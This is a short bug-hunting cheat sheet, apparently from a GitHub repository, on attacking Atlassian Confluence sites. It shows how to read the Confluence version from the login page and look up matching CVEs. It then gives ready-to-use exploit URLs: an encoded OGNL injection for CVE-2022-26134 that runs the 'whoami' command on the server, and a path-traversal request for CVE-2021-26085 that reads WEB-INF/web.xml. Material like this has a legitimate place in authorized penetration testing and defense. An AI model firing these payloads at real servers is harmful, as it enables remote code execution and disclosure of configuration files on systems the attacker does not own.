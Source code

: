 # Confluence Common Bugs

## Introduction
What would you do if you came across a website that uses Confluence?

## How to Detect
Try to HTTP request to `https://example.com/login.action?os_destination=%2F` and there is a form login

1. Find the related CVE by checking Confluence version
* How to find the Confluence version

Try to request to `https://example.com/login.action?os_destination=%2F` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the Confluence version. If you found outdated Confluence version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-6258/Atlassian-Confluence.html)

Some example CVE:

- CVE-2022-26134 (Remote Code Execution)
```
https://example.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

- CVE-2021-26085 (Arbitrary File Read)
```
https://example.com/s/test/_/;/WEB-INF/web.xml
```